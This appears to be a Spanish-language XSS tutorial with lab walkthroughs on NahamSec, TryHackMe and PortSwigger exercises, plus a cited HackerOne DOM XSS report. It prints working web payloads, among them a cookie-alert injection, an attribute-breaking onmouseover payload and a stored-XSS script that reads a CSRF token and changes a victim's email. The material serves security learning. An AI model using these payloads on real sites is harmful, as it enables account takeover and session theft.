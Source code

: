 # __Definición__

El ataque XSS (Cross-site scripting) permite a un atacante ejecutar código arbitrario client-side en el navegador de una víctima. Se puede utilizar para phishing, datos de exfilación, adquisición de cuentas y más.

# __Impacto__

Leer/modificar/eliminar contenido de cualquier página, robar cookies o sesiones de un usuario y obtener acceso a su cuenta, ofrecer contenido malicioso como phishing.

# __Tipos__

- Reflected XSS 

- Stored XSS: almacena el payload en la base de datos.

- DOM XSS

## __Reflected XSS__

En este caso voy a estar practicando en un laboratorio creado por NahamSec el cual podeis descargarlo en el siguiente enlace. 

[Lab de Nahamsec](https://github.com/nahamsec/nahamsec.training)

Lo primero con lo que nos encontramos es con un formulario que nos está pidiendo nuestro nombre. Si lanzamos el siguiente comando vamos a estar realizando un secuestro de cookie.


![](https://cdn.discordapp.com/attachments/866283809338818580/874823906328981524/si.png)

En este caso concreto no existe ningún tipo de cookie en la página.

![](https://gblobscdn.gitbook.com/assets%2F-MbL5rnDUc5SOFMrCAb3%2F-Mge7kJbQOyG68ts3cY5%2F-MgeJ-Ug2n3znolYFg9G%2Fimage.png?alt=media&amp;token=32f699c9-ba14-4f1b-989c-0a0368b67da1)
![]()

Podemos observar como primero interpreta el código malicioso y luego nos devuelve el output normal.

![](https://gblobscdn.gitbook.com/assets%2F-MbL5rnDUc5SOFMrCAb3%2F-Mge7kJbQOyG68ts3cY5%2F-MgeJGewZ_3gsBMvxsrt%2Fimage.png?alt=media&amp;token=01bd6c53-4700-4331-83c3-252ec6268e8d)

```xml
test1"><script>alert()</script>
</title><u> h4ns </u> <script>alert(1)</script>
```
Si tenemos un parámetro vulnerable como es en este caso name podríamos aprovecharnos y poner nuestro nombre cerrándolo con una comilla ' para luego decirle a la aplicación que ejecute todo lo que viene a continuación y descarte todo lo que está comentado a partir de las barras // .

```bash
http://xss4.naham.sec/?name=h4ns%27;+alert(1);//aaaa
# ' = %27 (URL Encode)
```
Aquí veriamos el ejemplo:

![](https://gblobscdn.gitbook.com/assets%2F-MbL5rnDUc5SOFMrCAb3%2F-Mge7kJbQOyG68ts3cY5%2F-MgeLFzinC6HPLxgP0RB%2Fimage.png?alt=media&amp;token=57d97055-638b-40aa-bb88-e2ba6141fcfe)

### __Primer ejercicio__

Una parte de los laboratorios de Nahamsec me pareció super interesante, vamos a echarle un vistazo:

Estamos en la pagina principal de la tienda https://nahamstore.thm y vamos a enviar un directorio invalido como por ejemplo https://nahamstore.thm/h4ns a ver que nos dice la página.

![](https://gblobscdn.gitbook.com/assets%2F-MbL5rnDUc5SOFMrCAb3%2F-MglrsJ1XV3chCKmZMSC%2F-MglsgGiYwktcwhyyPmS%2Fimage.png?alt=media&amp;token=3d3c9a66-b9d9-422a-bbf8-b764559e749d)

Ajá lo URL encodea. Vamos a probar a añadirle un parámetro aleatorio como por ejemplo file a ver cual es su respuesta.

```
http://nahamstore.thm/h4ns?file=xss
```

Después de lanzarlo nos damos cuenta que cualquier cosa que pongamos en la barra de búsqueda, si no es encontrado, es reflejado en el cuerpo de la página.

Vamos a añadirle a nuestra petición el tag `<h1>` a ver que nos devuelve la página:

```
http://nahamstore.thm/h4ns?file=<h1>xss
```

![](https://gblobscdn.gitbook.com/assets%2F-MbL5rnDUc5SOFMrCAb3%2F-MglrsJ1XV3chCKmZMSC%2F-Mgm0HxBXKQo_KevndPO%2Fimage.png?alt=media&amp;token=c99ccc61-b55c-4295-88b5-b0a471079138)

Perfecto, ya tenemos vía libre para robar unas cookies por ejemplo.

```
http://nahamstore.thm/h4ns?file=<img src=x onerror=alert(document.cookie)>
```
Lo que estamos haciendo en este código de javascript es pedir que nos cargue una imagen llamada `x` pero como esta no existe pues nos va a ejecutar el `alert()`. Esto se produce gracias al parámetro `onerror`.

### __Segundo ejercicio__

En este caso nos vamos a dirigir a uno de los productos que están disponibles para comprar en la tienda, en concreto el de las pegatinas. 

![](https://gblobscdn.gitbook.com/assets%2F-MbL5rnDUc5SOFMrCAb3%2F-MgmClfVhwoT8u8ZRKoE%2F-MgmFI8Jkzv_WorlBicz%2Fimage.png?alt=media&amp;token=5be4d9ac-9c49-42f9-a5a0-f4fea001ade6)

Vamos a abrir el Burp para ver como viaja esta petición:

![](https://gblobscdn.gitbook.com/assets%2F-MbL5rnDUc5SOFMrCAb3%2F-MgmFTP6qsMFnnr07dsY%2F-MgmH4eZcU800oWuPwYc%2Fimage.png?alt=media&amp;token=e7a814df-15be-427d-b671-9caeb2f0a1f9)

En seguida nos damos cuenta que hay un parámetro llamado `discount` pero, como podriamos hacer llegar un xss ahí?

Mandamos la petición al Repeater y le damos a `Follow redirect`, lo que vamos a hacer a continuación es lo que muchas páginas webs hacen y es meter un parámetro en la URL de la petición GET. En este caso vamos a introducir `discount`.

Si le mandamos el payload clásico para ver si pasa algo...

![](https://gblobscdn.gitbook.com/assets%2F-MbL5rnDUc5SOFMrCAb3%2F-MgmOGmwv-uSTpxS5kIf%2F-MgmXgeGhsDYIN0x--1v%2Fimage.png?alt=media&amp;token=d8c356fd-f959-498f-9f2c-1b12c6486765)

y vemos el resultado en la respuesta del servidor...

![](https://gblobscdn.gitbook.com/assets%2F-MbL5rnDUc5SOFMrCAb3%2F-MgmOGmwv-uSTpxS5kIf%2F-MgmXuFvJduTgx_rngeE%2Fimage.png?alt=media&amp;token=758eac22-ff65-4e4f-94e9-05f37a61a176)

nos vamos a dar cuenta que nos han eliminado los caracteres `<>`.

Por lo tanto vamos a eliminarlos de nuestro payload y a crear uno nuevo el cual al pasar el ratón por encima del input nos salte una alerta.

```
http://nahamstore.thm/product?id=2&added=1&discount=11" onmouseover=alert(1);"
```

Podemos verificar que esto se va a ejecutar correctamente si miramos la respuesta:

![](https://gblobscdn.gitbook.com/assets%2F-MbL5rnDUc5SOFMrCAb3%2F-Mgmbv-yMZVbZwCO2LtH%2F-MgmcISZI4kEGHcCJNzr%2Fimage.png?alt=media&amp;token=31fe1f44-c082-43d5-925d-c019570c9a19)

Al final del payload podríamos poner " para cerrar comillas o // para hacer que esta última se convirtiese en un comentario.

## __Stored XSS__

Estos casos son un poco más complicados debido a su complejidad. Podríamos aprovecharnos de esta vulnerabilidad para realizar un CSRF, vamos a ver un ejemplo. 

Esta vez voy a estar operando en la plataforma de PortSwigger.

[XSS to CSRF](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-perform-csrf)

Si miramos el código de la página vamos a observar que tenemos que hacer una solicitud POST a la dirección `/my-account/change-email` . También nos damos cuenta de que existe un anti-CSRF token en un input oculto llamado `token`.

Ahora ya podemos montar nuestro payload el cual deberá cargar la página de la cuenta de usuario, extraer el token CSRF y luego usar el token para cambiar la dirección de correo electrónico de la víctima.

Lo escribimos en algún blog que tenga los comentarios activados y...

```javascript
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=h4ns@test.com')
};
</script>
```

 Esto hará que cualquier persona que vea el comentario emita una solicitud POST para cambiar su dirección de correo electrónico a h4ns@test.com.

 ## __DOM XSS__

 DOM XSS ocurre cuando javascript refleja datos de un recurso controlado por un atacante (por ejemplo, dentro de la URL) y los pasa a una función más adelante.

Vamos a observar algún ejemplo:

[Reporte de hackerone](https://hackerone.com/reports/324303)

Este tipo de XSS es mucho mas complicado que los anteriores y es necesario tener conocimientos a cerca de javascript y HTML.

La persona que reportó esta vulnerabilidad nos cuenta como a partir del siguiente código interpeta que está buscando una localización para cargar una página en particular dentro de esa web.

![](https://gblobscdn.gitbook.com/assets%2F-MbL5rnDUc5SOFMrCAb3%2F-MgeWoqfWUGTPcqYhp8V%2F-MgeYUWdJwE1INxoBHj1%2Fimage.png?alt=media&amp;token=e1fce6b9-904d-422e-860a-5a16a9f464ae)

Un atacante puede poner su payload en el enlace y se incrustará en el output de la página:

```
https://mycrypto.com/#send-transaction<div/class="header__wrap"><a/href=javascript:alert(0)><h1>pwn3d</h1></a><img/src=//unskid.me/dist/jesus.gif></div>
```

Aquí tendríamos el resultado:

![](https://gblobscdn.gitbook.com/assets%2F-MbL5rnDUc5SOFMrCAb3%2F-MgeWoqfWUGTPcqYhp8V%2F-MgeZ5ESHG-WrSmxRdIV%2Fimage.png?alt=media&amp;token=6d18cbbb-4311-424a-b803-7c860b7fd82a)

En concreto sería este tipo de evento el que se está vulnerando:

[Location href Property](https://www.w3schools.com/jsref/prop_loc_href.asp)

Gracias :)
